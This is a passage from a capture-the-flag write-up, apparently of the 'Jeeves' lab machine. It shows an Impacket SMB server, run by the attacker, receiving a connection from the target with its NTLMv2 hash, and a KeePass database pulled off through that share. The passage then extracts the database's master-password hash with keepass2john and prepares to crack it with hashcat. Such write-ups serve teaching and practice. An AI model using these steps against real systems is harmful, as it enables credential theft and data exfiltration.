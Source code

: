 ```none
$ sudo python3 ~/tools/impacket/examples/smbserver.py r0kit shared/ -username r0kit -password h4ckit -smb2support
[sudo] password for kali:
Impacket v0.9.21 - Copyright 2020 SecureAuth Corporation

[*] Config file parsed
[*] Callback added for UUID 4B324FC8-1670-01D3-1278-5A47BF6EE188 V:3.0
[*] Callback added for UUID 6BFFD098-A112-3610-9833-46C3F87E345A V:1.0
[*] Config file parsed
[*] Config file parsed
[*] Config file parsed
[*] Incoming connection (10.10.10.63,49694)
[*] AUTHENTICATE_MESSAGE (\r0kit,JEEVES)
[*] User JEEVES\r0kit authenticated successfully
[*] r0kit:::4141414141414141:726e544bf390926a924ff611c23590dd:010100000000000080b8cec20e86d6013f2eb37fb782615e0000000001001000640047005600780047006a004e00700003001000640047005600780047006a004e0070000200100055004d005900780055006b0057004f000400100055004d005900780055006b0057004f000700080080b8cec20e86d60106000400020000000800300030000000000000000000000000300000fe14972fc6aa5afbb06dc2eef0647acfdb2500ac282c44224aba8e19c4bef92f0a001000000000000000000000000000000000000900200063006900660073002f00310030002e00310030002e00310034002e0032003400000000000000000000000000
[*] Connecting Share(1:IPC$)
[*] Connecting Share(2:r0kit)
[*] Disconnecting Share(1:IPC$)
[*] Handle: The NETBIOS connection with the remote host timed out.
[*] Closing down connection (10.10.10.63,49694)
[*] Remaining connections []
```

Since `.kdbx` files require a master password, I needed a way to crack it. After some research, I figured out that I was able to extract the KeePass master database password hash so that I could then pass it to `hashcat` for cracking:

```none
$ keepass2john CEH.kdbx > CEH.john
$ cat CEH.john
CEH:$keepass$*2*6000*0*1af405cc00f979ddb9bb387c4594fcea2fd01a6a0757c000e1873f3c71941d3d*3869fe357ff2d7db1555cc668d1d606b1dfaf02b9dba2621cbe9ecb63c7a4091*393c97beafd8a820db9142a6a94f03f6*b73766b61e656351c3aca0282f1617511031f0156089b6c5647de4671972fcff*cb409dbc0fa660fcffa4f1cc89f728b68254db431a21ec33298b612fe647db48
```

After transferring the hash to my password cracking rig, I cracked the keepass master password with `hashcat`:

```none
$ hashcat --example-hashes | grep -B1 -i keepass
MODE: 13400
TYPE: KeePass 1 (AES/Twofish) and KeePass 2 (AES)
HASH: $keepass$*2*24569*0*c40432355cce7348c48053ceea0a28e7d18859c4ea47e3a799c6300861f64b95*265dafcc42e1537ff42e97e1e283c70014133be0fe2d420b4d24c6d57c9d2207*a00e20a852694c15aabb074d61b902fa*48dd553fb96f7996635f2414bfe6a1a8429ef0ffb71a1752abbef31853172c35*a44ae659958ad7fae8c8952cb83f3cf03fec2371ce22a8bf7fac1e687af2f249*1*64*5a26ea376cc5afc955104c334571d30486acbac512a94b75ca82a9e31dd97bf7
```
